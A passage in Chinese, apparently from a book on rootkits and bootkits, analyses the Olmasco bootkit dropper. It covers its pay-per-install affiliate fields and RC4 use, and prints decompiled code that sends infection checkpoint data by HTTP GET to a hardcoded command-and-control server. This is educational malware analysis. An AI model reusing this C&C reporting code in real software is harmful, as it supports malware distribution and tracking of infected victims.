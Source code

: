 | *build* | 投放器的构建号。 |
| *name* | 投放器的名称。 |
| *vbr* | 恶意 Olmasco 分区在硬盘上的 VBR。 |

*affid* 和 *subid* 标识符在 PPI 方案中用于计算安装次数。参数 *affid* 是联盟的唯一标识符（即分发者）。参数 *subid* 是区分不同来源安装的子标识符。例如，如果 PPI 计划的联盟从两个不同的文件托管服务分发恶意软件，那么来自这些来源的恶意软件将具有相同的 *affid* 但不同的 *subid*。这样，联盟可以比较每个 *subid* 的安装数量，从而确定哪个来源更有利可图。

我们将很快讨论引导工具组件 *boot*、*vbr*、*dbg32*、*dbg64*、*drv32*、*drv64*、*ldr32* 和 *ldr64*，但 *main*、*build* 和 *name* 仅在表中描述。

**RC4 流密码**

RC4 是一种由 RSA Security 的 Ron Rivest 于 1987 年开发的流密码。RC4 使用可变长度的密钥，并生成用于加密明文的伪随机字节流。由于其紧凑和简单的实现方式，这种加密算法在恶意软件开发者中越来越受欢迎。因此，许多 rootkit 和 bootkit 都使用 RC4 来保护有效负载、与命令与控制（C&C）服务器的通信以及配置文件信息。

#### ***未来开发的追踪功能***

Olmasco dropper 引入了错误报告功能，以帮助开发者进行进一步开发。在成功执行每个感染步骤后（即 bootkit 安装算法中的每个步骤），bootkit 会向 C&C 服务器报告一个“检查点”。这意味着如果安装失败，开发者可以准确地确定失败发生在哪个步骤。如果发生错误，bootkit 会发送一条额外的综合错误消息，提供足够的信息以便开发者确定故障源。

追踪信息通过 HTTP 的`GET`方法发送到一个 C&C 服务器，其域名硬编码在 dropper 中。清单 10-1 显示了通过 Hex-Rays 反编译的 Olmasco 感染程序，该程序生成一个查询字符串来报告感染的状态信息。

```
HINTERNET __cdecl ReportCheckPoint(int check_point_code){

  char query_string[0x104];

  memset(&query_string, 0, 0x104u);

➊ _snprintf(

    &query_string,

    0x104u,

    "/testadd.php?aid=%s&sid=%s&bid=%s&mode=%s%u%s%s",

    *FILE_affid,

    *FILE_subid,

    &bid,

    "check_point",

    check_point_code,

    &bid,

    &bid);

➋ return SendDataToServer(0, &query_string, "GET", 0, 0);

}
```
